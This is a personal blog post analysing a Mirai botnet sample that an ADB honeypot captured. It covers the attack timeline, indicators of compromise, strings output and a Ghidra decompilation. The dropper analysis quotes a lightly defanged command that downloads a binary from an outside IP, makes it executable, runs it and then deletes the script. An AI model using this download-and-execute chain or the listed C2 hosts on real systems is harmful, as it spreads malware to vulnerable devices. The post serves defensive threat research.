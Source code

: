 ```yaml
---
slug: mirai
title: Analysis of Mirari Malware
authors: nathan
tags: [honeypot, reversing, malware]
sidebar_position: 1
image: https://m.media-amazon.com/images/I/41ZJaKEDzNL._AC_SX355_.jpg
---
```


## Intro 
I recently found out Google Cloud offers $300 for first time users, so I figured what better way to spend that than deploying a honeypot? While this blog post won't go into detail on deploying one yourself (keep at eye on my [docs](/docs/welcome) for a that) it will go into detail analyzing a malware sample that I discovered being deployed against it.

<!--truncate-->

## Timeline and Recon
On January 4th 2022 at ~20:30 UTC my honeypot deployed in Oregon was attacked by 205.185.123.62 hosted in [Las Vegas, Nevada.](https://www.iplocationtools.com/205.185.123.62)  It's hosted by "Frantech Solutions" which a cursoury google search gives results such as "FranTech Solutions is **a high fraud risk ISP**.." and [scamalytics](https://scamalytics.com/ip/isp/frantech-solutions) gives it a score of 64.

My honeypot was attacked a total of 24 times from this IP address. Starting at 20:30 UTC and ending at 11:00 UTC. 

## Attack Vector
This attack was caught by the [ADBHoney](https://github.com/huuck/ADBHoney) service running on my honeypot. ADBHoney describes itself as a "Low interaction honeypot designed for Android Debug Bridge over TCP/IP." Now I have some experience with ADB in a prior CTF so I understood a small bit of what this honeypot does. ADB is the Andriod Debug Bridge. It's essentially a protocol/tool that allows developers to communicate with andriod devices. It's used prominately in the emulation part of Andriod Studio. Unfortunately for us, the TCP section of the ADB protocol **does not** have any kind of authentication, leaving it open to attacks. This is what the honeypot sets up to gather samples.

## Payload

![image](/img/mirai/initial_payload.png)
*Figure 1: Inital Attack*

As we can see in Figure 1, the inital attack involves moving into the tmp directory, using [busybox](https://busybox.net/) to execute wget to get another sample and executes it. It repeats this twice, opting for curl for the second sample. Switching tools like that is common in malware droppers, allowing it to be ran on more hosts. A potential target could be missing either curl or wget, but missing both would be unlikely. Both **w.sh** and **c.sh** are essentially the same file as seen below. The only difference being what tool is used to download the next stage.


![image](/img/mirai/wget.png)
*Figure 2: wget method*

![image](/img/mirai/curl.png)
*Figure 3: curl method*

Here we can see how the actual malware sample is being downloaded. What makes this particular malware sample interesting is how it has different exectuables for a large set of instruction sets, ranging from ARM to SH4 to MIPS and even sparc. The first part of each line is downloading the malware `curl htt[p]s://209.141.33.122/arm`, then setting it as executable `chmod 777 arm`, then executing it with the argument of "android" `./arm android`. The final part of the script `rm $0` is deleting the script that was just ran in an effort to evade analysis. 

## Detection Rate and VirusTotal

Uploading the MIPS sample to [VirusTotal](https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection) gives it a detection ratio of 36/56 and most AV vendors classify this sample as belonging to the [Mirai](https://en.wikipedia.org/wiki/Mirai_(malware)) botnet. It was first seen on December 29th, 2021.  

VirusTotal Link: https://www.virustotal.com/gui/file/10a5fabf1847feb44437827b040f707b432b3cc93167720fe9879ca33477d5c1/detection  

## IOCs
If you see network activity to these IPs/Domains or system activity relating to them, you might be infected.  
IPs: 209.141.33.122  
Domains: bots1.firewalla1337.cc, scan1.firewalla1337.cc  
System Activity: Creation of binaries in `/data/local/tmp` with the names of common instruction sets. Execution of binaries with the argument of `android`.  
## Analysis

Note: My reversing skills are still in its infancy, so please bear with me.

The first thing I did to this binary was run strings against it. This gave me some interesting findings seen below:

### Strings
`/dev/null`  
`POST /cdn-cgi/`   
`HTTP/1.1\r\nUser-Agent:`   
`\r\nHost:`   
`Cookie: `    
`bots1.firewalla1337.cc`   
`209.141.33.122`   
`abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ012345678`   
`dadlcldadg`    
`scan1.firewalla1337.cc`    

Lets open this sample in ghidra and look into it a bit further.

The only function I could make sense of was what to me looks like a domain resolution function here:
```c
void FUN_00410544(void)

{
  byte *pbVar1;
  uint uVar2;
  undefined2 *puVar3;
  int iVar4;
  
  pbVar1 = (byte *)FUN_00411908("bot[s]1.firewalla1337.cc");
  if (pbVar1 != (byte *)0x0) {
    iVar4 = *(int *)(pbVar1 + 4);
    uVar2 = FUN_00411518();
    if (*pbVar1 == 0) {
      trap(0x1c00);
    }
    DAT_0045d784 = *(undefined4 *)((uVar2 % (uint)*pbVar1) * 4 + iVar4);
    FUN_0041189c(pbVar1);
    FUN_00414e24(1);
    puVar3 = (undefined2 *)FUN_00414d0c(1,0);
    DAT_0045d782 = *puVar3;
                    /* WARNING: Could not recover jumptable at 0x00410634. Too many branches */
                    /* WARNING: Treating indirect jump as call */
    FUN_00414d40(1);
    return;
  }
  DAT_0045d784 = FUN_00417c20("209.1[4]1.33.122");
  return;
}
```
*Brackets in IP address and Domain added by myself*

Both the domain name and IP address are hardcoded, but these are both the same address of the machine where the attack originated from meaning we dont have the C2's address.

There are references to POSTs and setting URL variables in the malware which tells me that's most likely the way communication is handled between the C2 and the bots.  

## Closing Thoughts

Unfortunately this is the extent of my analysis of this sample. My reversing skills arent where they should be in order to properly reverse this sample. I would try dynamic analysis and see what domains/IPs this sample tries to contact, but the x86 version was not available and I do not have any spare system capable of executing the other instruction sets besides my Raspberry Pi4s, so lookout for a potential part 2 of this post where I execute the malware in a lab environment.

Thank you so much for reading this post. I learned a lot while investigating this sample and hopefully you learned something new reading this blog post. I hope to post more about my activities with my honeypot so keep an eye out for those posts when they drop.   

As always, if you have any feedback please don't hesitate to contact me at [my email.](mailto:nathan@nburns.tech?Subject=Reverse_Blogpost)

Nathan Burns